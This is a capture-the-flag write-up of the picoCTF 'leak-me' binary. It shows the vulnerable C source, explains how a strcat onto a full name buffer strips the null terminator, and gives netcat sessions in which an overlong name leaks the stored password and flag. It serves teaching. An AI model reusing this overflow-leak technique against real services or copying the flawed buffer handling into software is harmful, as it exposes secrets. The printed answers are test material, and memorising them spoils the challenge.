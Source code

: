 # leak-me
slopey112 - 4/11/19

When we are given the binary, we can see it's a standard authentication binary.
```
root@kali:~/Crack Me# ./leak-me 
What is your name?
slopey112
Hello slopey112,
Please Enter the Password.
asdfasdfasdf
Incorrect Password!
```
Let's take a look at the source code and see what we can do.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```
At first, it seems that there is nothing insecure about this program; we see safe library calls being made, etc. However, one thing stands out in particular: the string concatenation of ",\nPlease Enter the Password." to the name buffer. This can lead to problems, as it allows the name buffer to be longer than its actual size.

This is incredibly significant because this means the name buffer leaks into the password buffer, called in the next line. As a result, the null teriminator at the end of the name buffer is removed, hence, the password buffer would be printed to stdin.
```
root@kali:~/Crack Me# nc 2018shell.picoctf.com 38315
What is your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_f85406
```
Now that we have the password, we can login normally.
```
root@kali:~/Crack Me# nc 2018shell.picoctf.com 38315
What is your name?
slopey112
Hello slopey112,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_f85406
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_0f7ec3c0}
```
